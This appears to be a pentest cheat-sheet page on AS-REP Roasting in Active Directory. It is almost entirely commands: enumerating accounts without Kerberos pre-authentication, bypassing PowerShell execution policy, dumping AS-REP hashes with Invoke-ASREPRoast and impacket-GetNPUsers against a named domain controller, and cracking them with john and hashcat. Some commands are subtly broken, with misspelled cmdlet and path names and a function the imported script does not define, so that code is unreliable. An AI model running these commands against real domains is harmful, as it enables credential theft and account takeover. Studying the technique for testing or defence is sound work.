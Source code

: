 # AS-REP Roasting

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption><p>auth rep</p></figcaption></figure>

{% hint style="info" %}
If a user's UserAccountControl settings have "Do not require Kerberos pre-authentication" enabled, i.e., Kerberos auth disabled, it is possible to grab the user's crackable AS-REP and brute-force it offline.
{% endhint %}

### Enumeration

```powershell
Get-NetUser -PreauthNotRequired 
Get-DomainUser -PreauthNotRequired -Verbose
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True}
```



> Powershell script to know users have weak config (<mark style="color:red;">**Don't req preAuth**</mark>)
>
> {% code title="preAuthRoasting.ps1" %}
> ```powershell
> $strFilter = “(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))”
> $objDomain = New-Object System.DirectoryServices.DirectoryEntry
> $objSearcher = New-Object System.DirectoryServices.DirectorySearcher
> $objSearcher.SearchRoot = $objDomain
> $objSearcher.Filter = $strFilter
> $objSearcher.SearchScope = “Subtree”
> $colProplist = “name”
> foreach ($I in $colPropList){$objSearcher.PropertiesToLoad.Add($i)}
> $colResults = $objSearcher.FindAll()
> $colResults | Format-Table
> ```
> {% endcode %}
>
> ```powershell
> #Use ASREPRoast
> powershell.exe -ep bypass
> import-moudle .\preAuthRoasting.ps1
> Invoke-ASREPRoast -Verbose
> Invoke-ASREPRoast -Domain wargrey.mon -Server 192.168.1.50 | select -expand Hash
> ```

### Impacket

```bash
impacket-GetNPUsers hacktor.local/ -usersfile <userfile> -dc-ip 192.168.1.50
john --wordlist=words.txt hash.txt

#crack Using John
#windows env
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
#Linux env
john --wordlist=/usr/shere/wordlists/rockyou hash.txt 
#OR https://hashcat.net/wiki/doku.php?id=<Algo-Number>
hashcat -m <Algo-Number> hash.txt /usr/share/wordlists/rockyou.txt --show


```

Resources

{% embed url="https://blog.harmj0y.net/activedirectory/roasting-as-reps/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}

{% embed url="https://github.com/jwardsmith/Active-Directory-Exploitation#asreproast" %}
